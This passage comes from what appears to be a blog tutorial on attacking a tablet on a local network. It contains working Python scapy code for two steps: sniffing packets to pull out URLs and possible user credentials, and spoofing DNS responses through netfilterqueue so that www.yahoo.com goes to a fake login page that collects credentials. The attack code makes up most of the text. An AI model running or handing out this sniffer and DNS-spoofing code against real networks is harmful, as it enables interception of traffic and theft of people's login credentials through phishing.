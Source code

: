 ```python
        url = get_url(packet)
        print("[+] HTTP request URL " + url)

        user_credentials = get_user_credentials(packet)
        if user_credentials:
            print("\n\n[+] Possible user credentials are -> " + str(user_credentials) + "\n\n")


def sniffer(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)


sniffer("REPLACE_WITH_YOUR_NIC")
```

## Step 3 of 3: Spoof DNS requests

Our final step will be to serve the [custom phishing page](https://chirpy.thekor.eu/posts/a-simple-phishing-page/) that I shared a couple of weeks ago. Instead of going to the actual yahoo page the user is served a fake login page at www.yahoo.com that captures credentials and then redirects to the actual website

The implementation below can seem daunting at first but if you understand the idea it becomes easier to read the code. If you don't know how socket programming works bear with me. 

So our task is to replace our tablet's DNS request with ours except it's not as easy as deleting or filtering the existing one. If you do that the socket will close the connection. The workaround is to stall the original DNS request into a "netfilterqueue" queue. This delay allows us to create our own DNS request and get a faster round trip to the yahoo servers thus ensuring our spoofed request gets passed to the tablet instead of the original one.


```python

import netfilterqueue
import scapy.all as scapy
import os
from dotenv import load_dotenv


load_dotenv()
QUEUE_ID = os.getenv("QUEUE_ID")
URL_TO_SPOOF = os.getenv("URL_TO_SPOOF")
REDIRECT_IP = os.getenv("REDIRECT_IP")

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    print(scapy_packet.show())
    # filter DNS response requests
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if URL_TO_SPOOF in str(qname):
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=URL_TO_SPOOF, rdata=REDIRECT_IP)
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].len
            del scapy_packet[scapy.UDP].chksum

            packet.set_payload(bytes(scapy_packet))
    packet.accept()

```